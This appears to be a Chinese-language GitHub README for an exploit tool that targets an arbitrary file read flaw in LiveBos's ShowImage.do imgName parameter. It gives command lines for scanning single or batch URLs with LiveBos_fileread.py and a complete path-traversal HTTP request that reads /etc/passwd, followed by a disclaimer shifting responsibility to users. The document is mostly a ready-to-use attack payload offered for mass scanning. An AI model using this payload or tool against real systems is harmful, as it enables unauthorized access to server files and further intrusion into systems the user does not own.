


# LiveBos ShowImage.do文件imgName文件读取

LiveBos ShowImage.do文件 imgName存在任意文件读取漏洞。


## 工具利用

python3 LiveBos_fileread.py -u http://127.0.0.1:1111 单个url测试

python3 LiveBos_fileread.py -f url.txt 批量检测



读取/etc/passwd文件内容
```
GET /feed/ShowImage.do;.js.jsp?type=&imgName=../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.1566.24 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close

```



## 免责声明

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
